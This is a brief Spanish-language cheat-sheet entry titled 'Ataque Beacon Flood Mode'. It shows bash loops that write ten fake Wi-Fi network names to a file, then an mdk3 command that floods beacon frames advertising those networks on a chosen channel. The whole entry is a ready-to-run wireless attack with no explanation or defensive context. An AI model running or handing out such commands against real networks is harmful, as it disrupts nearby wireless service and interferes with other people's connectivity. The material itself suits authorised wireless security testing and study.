 
# Ataque Beacon Flood Mode

```bash
for i in $(seq 1 10); do echo "MyNetwork$i"; done
for i in $(seq 1 10); do echo "MyNetwork$i" >> redes.txt; done
```

```bash
mdk3 <interfaz> b -f redes.txt -a -s 1000 -c <canal> 
```